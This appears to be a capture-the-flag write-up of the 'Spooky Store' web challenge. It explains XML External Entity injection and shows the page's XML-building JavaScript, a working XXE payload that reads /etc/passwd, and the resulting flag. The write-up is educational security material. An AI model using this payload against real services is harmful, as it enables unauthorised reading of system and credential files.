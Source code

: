 Spooky Store
=====
#### Solver: ap3xsh0t

## Category: Web

> "It's a simple webpage with 3 buttons, you got this :)"

## Methodology
This webpage contains a vulnerability known as XXE, or XML External Entity injection. I'll admit I am no web pwner, but this one was interesting and fun (and relatively easy). If I can solve this one, nearly anyone can. 

## Reconnaissance
First thing we want to do is try to understand the attack surface. After probing around the website we can see where the injection should take place in the javascript below.

![webpage](img/webpage.png)

```javascript
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<locationCheck>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</locationCheck>';
    return xml;
}
```

## The exploit

I ended up firing up burpsuite and intercepting eveything going to through this webpage. Anytime I would click on one of the buttons, an XML sheet would be generated. In order to exploit this, you basically had to inject the textbook definition of XXE into the XML sheet and then forward the request.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<locationCheck><productId>&xxe;</productId></locationCheck>
```

![flag](img/flag.png)

> utflag{n3xt_y3ar_go1ng_bl1nd}
